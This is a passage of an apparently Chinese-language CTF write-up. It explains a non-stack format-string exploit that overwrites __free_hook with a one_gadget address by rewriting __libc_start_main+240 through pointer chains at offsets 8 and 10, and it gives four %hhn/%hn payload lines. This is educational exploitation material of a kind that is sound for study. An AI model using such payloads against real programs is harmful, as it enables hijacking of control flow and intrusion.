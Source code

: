 这里有13次格式化字符串

## 思路

利用非栈上的格式化字符串来修改free\_hook为one\_gadget  
\_\_libc\_start\_main+240 ：main函数的返回地址

[![](assets/1701612457-4e92c2ca22d35e17faf7ec1f9a44e0e2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623214935-ca2d1e30-11cc-1.png)  
1.这个题首先就是运用rbp附近的两个跳板(偏移为8和10)，把\_libc\_start\_main+240改成free\_hook  
这里需要改6位，所以需要4步

```plain
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
sla('What do you want to say?\n','%'+str(free_hook&0xffff)+'c%10$hn')
sla('What do you want to say?\n','%'+str(num+2)+'c%8$hhn')
sla('What do you want to say?\n','%'+str((free_hook//0x10000)&0xff)+'c%10$hhn')
```

这里前两步修改就是直接对 \_libc\_start\_main+240 后两位进行了修改  
后两步是先修改了一下地址，然后修改了 \_libc\_start\_main+240 的倒数3，4位(就是不能直接修改地址的倒数3，4位，我们就修改地址，然后改新地址的最后两位，以达到修改地址的倒数3，4位的目的)
